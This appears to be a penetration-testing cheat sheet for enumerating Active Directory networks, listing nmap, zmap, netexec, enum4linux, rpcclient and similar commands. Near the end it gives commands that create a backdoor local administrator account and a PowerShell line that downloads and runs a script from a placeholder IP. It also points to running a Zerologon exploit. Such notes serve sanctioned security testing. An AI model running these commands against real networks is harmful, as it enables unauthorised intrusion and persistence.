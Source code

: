 ```yaml
---
description: Enumerate the network and its services, find the DC,
---
```


# Domain Network Enumeration

## Network Enumeration

```bash
nmap -sP -p $ip #ping scan
nmap -Pn -n -T4 -v3 $ip #quick scan
rustscan -a $ip
```

## Domain Name

```bash
nxc smb $network_ip
```

## Domain Controllers

They are usually DNS Servers. They have usually LDAP listening port 389.

<pre class="language-bash"><code class="lang-bash"><strong># with nmap
</strong><strong>nmap -p53,88,389 $network_ip --open -v -oN dc
</strong># with nmcli
nmcli dev show $iface
# with nslookup
nslookup -type=SRV _ldap._tcp.dc.msdcs.$domain
</code></pre>

## Enumerate alive machines

<pre class="language-bash"><code class="lang-bash"><strong># with zmap
</strong><strong>sudo zmap -i $iface -P 2 --probe-module=icmp_echoscan -B 1M --max-targets=10000000 -o targets_rfc1918.txt $network_ips
</strong><strong>
</strong><strong># with arp-scan
</strong>arp-scan -d $networkrange

# with nxc - smb, ssh, rdp
nxc smb $networkrange
</code></pre>

## Enumerate services

### DNS

```bash
# test for dns attacks
dnsenum $domain -f /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt --dnsserver $dns_server_ip > dnsenum.txt
```

### `enum4linux`

Tool for enumerating information from Windows and Samba systems.

#### Basic commands

```bash
# Default command that you will use almost always
enum4linux -a 0.0.0.0
​
# list groups
enum4linux -G 0.0.0.0
​
# list windows shares
enum4linux -S 0.0.0.0
```

### `netexec`

> Post-exploitation tool that helps automate assessing the security of large Active Directory networks.

{% embed url="https://github.com/Pennyw0rth/NetExec" %}

#### Installation

{% embed url="https://www.netexec.wiki/getting-started/installation/installation-on-unix" %}

```bash
# only in upgraded Windows servers from 2003 - No auth attempt
# to get password policy, minimum length, account lockout threshold
nxc smb $domainOrIP --pass-pol -u '' -p ''	

# The usernames with RID greater than 1000 into a username file
nxc smb $domainOrIP -u robot -p '' --rid-brute | grep  SidTypeUser	

# Enumerate a user share
nxc smb $domainOrIP -u $user -p $passwd --shares
```

### UO | Users Enumeration

```bash
GetADUsers.py $domain/ -dc-ip $ip

# More infos with rpcclient
rpcclient -U "" -N $ip

# Get all of the OUs in a domain
Get-ADOrganizationalUnit -Filter 'Name -like "*"' | Format-Table Name, DistinguishedName -A

### Create a new user in admin groupe 

# username:password = anon:p3nT3st!
net user anon p3nT3st! /add
net localgroup administrators anon /add

net user anon p3nT3st! /add;net localgroup administrators anon /add

If you cannot import module start a webserver and
IEX(New-Object Net.Webclient).downloadstring('http://<IP>/Powershell.ps1')
```

## Tools

### AD Enum

* ASREPRoasting
* Kerberoasting
* Dump AD as BloodHound JSON files
* Searching GPOs in SYSVOL for cpassword and decrypting
* Run without creds and attempt to gather for further enumeration during the run
* Sample exploits included:
  * CVE-2020-1472

{% embed url="https://github.com/CasperGN/ActiveDirectoryEnumeration" %}

### Install

```bash
pip3 install ActiveDirectoryEnum
python -m ade

# query exploit for poc
python -m ade --exploit cve-2020-1472
```
